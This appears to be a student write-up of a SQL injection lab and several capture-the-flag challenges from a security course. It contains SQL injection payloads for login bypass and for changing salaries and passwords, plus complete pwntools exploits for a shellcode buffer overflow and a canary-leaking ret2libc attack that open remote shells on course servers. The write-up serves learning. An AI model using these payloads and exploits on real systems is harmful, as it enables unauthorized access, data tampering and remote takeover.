

# SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

To print all the profile information of the employee Alice, we need to select
everything from the table credential, where the column 'Name' is equal to
'Alice'. This can be achieved with the following query:

```sql
SELECT * FROM credential WHERE Name='Alice';
```


## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

To perform this attack, our strategy will be to set the name to admin, and
comment out the rest of the query so that the password never gets checked.
To do this, we enter in the name input field *admin' #*, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin' #' and Password='$hashed_pwd';
```

Which is equivalent to:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
FROM credential
WHERE name= 'admin';
```

Note: we use *#* instead of the traditional *--* to comment because, according
to the MySQL reference manual, the *--* comment "requires the second dash to be
followed by at least one whitespace or control character". Now lets test this
in the web page.


### Task 2.2: SQL Injection Attack from command line

Before encoding, the URL of our request should look like this:

```url
http://www.seed-server.com/unsafe_home.php?username=admin'#&Password=
```

For encoding, we just need to replace the *'* character with a %27 and the *#*
with %23. Executing the curl command:

```sh
$ curl http://www.seed-server.com/unsafe_home.php?username=admin%27+%23&Password=´
(...)
<table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>
(...)
```

And we get as a response the HTML code, which contains the table with the
employee information.

### Task 2.3: Append a new SQL statement

We tried the following payload:

```sql
admin'; DELETE FROM credential WHERE name="Alice" #
```


But we get the following error message:


After looking at how MySQL queries work in php, we found that query() "sends a
unique query (multiple queries are not supported) to the currently active
database", so that explains why we get an error.

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

To modify the salary, we tried the following payload:

```sql
Alice', salary=1000 WHERE name='Alice' #
```


And after checking out Alice's profile, we see that we successfuly changed her
salary to 1000.


### Task 3.2: Modify other people’s salary

To modify other people’s salary, we use a payload similar to the one used in
the last task, but replace the name with "Boby".

```sql
Alice', salary=1 WHERE name='Boby' #
```


After logging back in the admin's account, we see that salary of Boby is now
set to 1.


### Task 3.3: Modify other people’ password

We want to change Boby's password to "password123". To do this, we first need
to find the SHA1 hash of this string. We will use an online hasher for this.


Now, just need to replicate the last payload, but instead of changing the
salary, we must change the password to be equal to
"cbfdac6008f9cab4083784cbd1874f76618d2a97". Here is our payload:

```sql
Alice', password="cbfdac6008f9cab4083784cbd1874f76618d2a97" WHERE name='Boby' #
```


And sure enough, we are able to login to Boby's account using password123 as
the password.


## CTF 1

When we open the vulnerable webpage, we are greeted by a login form.


As we have seen in class, a very common vulnerabily in this type of forms, is
SQL Injection. If the webpage is vulnerable to SQLi, and we manage to exploit
it, we can completely bypass the login form and login as any user that exists in
the server database. Looking at the source code of the server, we found the
following vulnerable lines of code:

```php
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT username FROM user WHERE username = '".$username."' AND
                                            password = '".$password."'";
```

The query is built using unparsed input from the user. This is a clear
sign that it is vulnerable to SQLi. Now let's exploit it! Our goal is to login
as admin, so we will build a payload that sets the username to admin, but
bypasses the password check. It should look like this:

```sql
admin' --
```

This will result in the final query being:

```sql
SELECT username from user WHERE username = 'admin' -- AND password = ''
```

As we can see, the resulting query doesn't care what the password is since it
is commented out. Now let's test our payload:


And sure enough, we login as admin without knowing the password and get the
flag!

## CTF 2

Like every pwn challenge, we start by running *checksec* on the binary:

```sh
$ checksec program
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```

So, we have a 32bit binary with most protections disabled except for PIE. This
means we can perform every attack we learned so far, but in the case of
a buffer overflow, we need some way to leak some addresses, or the worst case
go with trial and error. Let's examine the source code we are given:

```c
printf("Your buffer is %p.\n", buffer);
gets(buffer);
```

From analizing this two lines of code, we detected an obvious buffer overflow,
and also see that we are given the address of the buffer, defeating PIE. So our
plan for exploiting will be:

* Calculate offset between buffer and return address
* Read from stdout the buffer address
* Place shellcode at the start of our buffer (possible since stack is
    executable)
* Overwrite return address with pointer to the buffer that contains shellcode

Using gdb to calculate offset:

```sh
gdb-peda$ p $ebp
$1 = (void *) 0xffffd1c8
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffd160
```

So the offset is 0xffffd1c8 - 0xffffd160 + 4 = 108.
And our exploit script will look like this:

```python
#!/bin/python3

from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4001)

p.recvuntil(b"Your buffer is ")
bufStr = (p.recvline()).decode('utf-8')[:-2]
p.recvuntil(b"Give me your input:")

shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

buffer = bytearray(0x90 for i in range(112))
retOffSet = 108
buffer[:len(shellcode)] = shellcode
L = 4
buffer[retOffSet:retOffSet + L] = int(bufStr, base=16).to_bytes(L, byteorder='little')

p.sendline(buffer)
p.sendline(b'cat flag.txt')
p.interactive()
```

Executing our script:

```sh
$ ./exploit.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4001: Done
[*] Switching to interactive mode

flag{...}
```

We get our flag!

## Extra CTF - Echo

In this challenge, we are given two files, a 32 bit ELF binary and a libc file.
As usual, we start by running the checksec command:

```sh
$ checksec program
[*] '/home/seed/ctfs/echo/program'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All binary protections are enabled! Also, we are told that the server is
running on Ubuntu 22.04., so we assume that there will be ASLR enabled as well.
This will be a though one! Let's start playing around with the binary.


It looks like it is a simple echo program that just echos our messages back to
us until we decide to quit. We now put our attention in the part that says that
our name must have a maximum of 20 chars, maybe this is not enforced and we
have a buffer overflow?


Indeed, using gdb to disassemble the main function, we see that only 20 bytes
are alocated on the stack, but then the fgets function reads up to 64 bytes!
This gives us plenty of margin for a buffer overflow. Next, since we know there
is a canary, if we want to make use of the buffer overflow, we must leak it
somehow. Since our output is printed back to us, maybe there is also a format
string vulnerability?


Our suspicion is confirmed. We now have all the information needed to develop
our exploitation plan: leak the canary using the format string vulnerability;
since the stack is not executable, we will perform ret2libc, and for that we
need to leak a libc address aswell in order to defeat PIE and ASLR (if there
weren't both of this securities, we could more easily lookup all libc addresses
we wanted before running the program); overwrite the main return address with
the ROP chain system + exit + "/bin/sh", making sure to keep the canary intact
(except for that first bit that is always 0, but we will get to that); restore
the first bit of the canary, using the fact that fgets places a 0 a the end of
our string. Let's start with leaking the canary:


After some trial and error and help of gdb, we find a format string that leaks
the canary. Our exploit function will look like this:

```python
def leak_canary(p):
    canary_leak = '%8$x'
    p.recvuntil(b'Insert your name (max 20 chars): ')
    p.sendline(str.encode(canary_leak))
    canary_bytes = p.recvline()[-9:-1]
    canary = bytearray(4) # First bit is always 0
    canary[3] = int(canary_bytes[0:2], base=16)
    canary[2] = int(canary_bytes[2:4], base=16)
    canary[1] = int(canary_bytes[4:6], base=16)
    return canary
```

Next we will try to leak the base address of libc, needed to
calculate the addresses of the libc functions we want to perform. Using vmmap
in gdb, we find the base address of libc for the current execution.



We also investigate the stack and find a payload that gets us an address
belonging to libc address space.


Subtracting them we get the following offset:


This means that to get libc base address, we just use a format string to leak
this random andress, and after subtracting the offset, we obtain the base! Here
is the python code that does this for us:

```python
def leak_libc(p):
    payload = '%11$x'
    p.recvuntil(b'Insert your name (max 20 chars): ')
    p.sendline(str.encode(payload))
    libc_base = int(p.recvline()[:-1], base=16) - 0x21519
    return libc_base
```

Now, we need to find the real addresses of system(), exit(), and the string
"/bin/sh" we can use the provided libc to find their offsets, and then just
need to sum them to the previously calculated base address.


Putting this in the script:

```python
libc_base = leak_libc(p)
   system_offset = 0x48150
   binsh_offset  = 0x1bd0f5
   exit_offset = 0x3a440
   libc_system = libc_base + system_offset
   libc_binsh  = libc_base + binsh_offset
   libc_exit   = libc_base + exit_offset
```

Next, we create an auxiliary function to overwrite the return address while
preserving the 3 most significant bits of the canary:

```python
def overwrite_return(p, canary, new_value):
    buffer = bytearray(0x41 for _ in range(20+8+4+12)) # Size + canary + ebp + ret
    buffer[21:24] = canary[1:]
    buffer[32:] = new_value
    p.sendline(buffer)
```

Finnally, we just need to restore the first bit of the canary with 0. Since
fgets puts a newline followed by 0 at the end of our input, we will provide 19
random characters, so that the 20th becomes a newline, and the 21th, which is
the first bit of the canary becomes 0, leaving the canary completely undamaged.

```python
p.sendline(b'AAAAAAAAAAAAAAAAAAA')
```

Here is our final script:

```python
from pwn import *

def back_to_name(p):
    p.recvuntil(b'Insert your message: ')
    p.sendline(b'adsadasdasdas')
    p.recvuntil(b'>')
    p.sendline(b'e')

def leak_canary(p):
    canary_leak = '%8$x'
    p.recvuntil(b'Insert your name (max 20 chars): ')
    p.sendline(str.encode(canary_leak))
    canary_bytes = p.recvline()[-9:-1]
    canary = bytearray(4) # First bit is always 0
    canary[3] = int(canary_bytes[0:2], base=16)
    canary[2] = int(canary_bytes[2:4], base=16)
    canary[1] = int(canary_bytes[4:6], base=16)
    return canary

def leak_libc(p):
    payload = '%11$x'
    p.recvuntil(b'Insert your name (max 20 chars): ')
    p.sendline(str.encode(payload))
    libc_base = int(p.recvline()[:-1], base=16) - 0x21519
    return libc_base

def overwrite_return(p, canary, new_value):
    buffer = bytearray(0x41 for _ in range(20+8+4+12)) # Size + canary + ebp + ret
    buffer[21:24] = canary[1:]
    buffer[32:] = new_value
    p.sendline(buffer)

def call_return(p):
    p.recvuntil(b'Insert your message: ')
    p.sendline(b'adsadasdasdas')
    p.recvuntil(b'>')
    p.sendline(b'q')

def main():
    # p = process('./program')
    p = remote('ctf-fsi.fe.up.pt', 4002)

    p.recvuntil(b'>')
    p.sendline(b'e')

    # leak canary
    canary = leak_canary(p)
    back_to_name(p)
    
    # leak_libc
    libc_base = leak_libc(p)
    system_offset = 0x48150
    binsh_offset  = 0x1bd0f5
    exit_offset = 0x3a440
    libc_system = libc_base + system_offset
    libc_binsh  = libc_base + binsh_offset
    libc_exit   = libc_base + exit_offset
    system_bytes = libc_system.to_bytes(4, byteorder='little')
    binsh_bytes = libc_binsh.to_bytes(4, byteorder='little')
    exit_bytes = libc_exit.to_bytes(4, byteorder='little')
    back_to_name(p)

    # overwrite return address
    overwrite_return(p, canary, system_bytes + exit_bytes + binsh_bytes)
    back_to_name(p)

    # clear 0 bit of canary
    p.sendline(b'AAAAAAAAAAAAAAAAAAA')
    
    # return main to invoke shell
    call_return(p)
    
    p.interactive()

if __name__ == "__main__":
    main()
```

And after running it, we get a shell on the server and obtain the flag!

```sh
$ python3 exploit2.py 
[+] Opening connection to ctf-fsi.fe.up.pt on port 4002: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{74e82e4b906cd69e6487bcd54d50edb2}
```
